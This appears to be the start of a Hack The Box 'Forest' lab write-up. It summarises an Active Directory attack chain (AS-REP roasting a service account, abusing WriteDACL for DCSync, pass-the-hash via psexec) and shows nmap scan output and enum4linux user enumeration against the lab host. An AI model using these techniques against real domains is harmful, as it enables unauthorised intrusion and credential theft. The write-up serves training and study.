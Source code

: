 - The service account `svc-alfresco` does not require kerberos preauthentication so we can retrieve and crack the hash offline  
- After running Bloodhound on the machine, we find that we have WriteDACL access on the domain
- We can give ourselved DCSync rights, recover the administrator NTLM hash and psexec to get an administrator shell

## Portscan

```
root@kali:~/htb/forest# nmap -p- -T4 10.10.10.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-12 15:01 EDT
Nmap scan report for forest.htb (10.10.10.161)
Host is up (0.041s latency).
Not shown: 65512 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49678/tcp open  unknown
49697/tcp open  unknown
```

## Enumerating domain users on the machine

NULL sessions are allowed so we can get a list of users through the RPC client.

The `svc-alfresco` user is probably a service account based on the name.

```
root@kali:~/htb/forest# enum4linux 10.10.10.161
[...]
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
```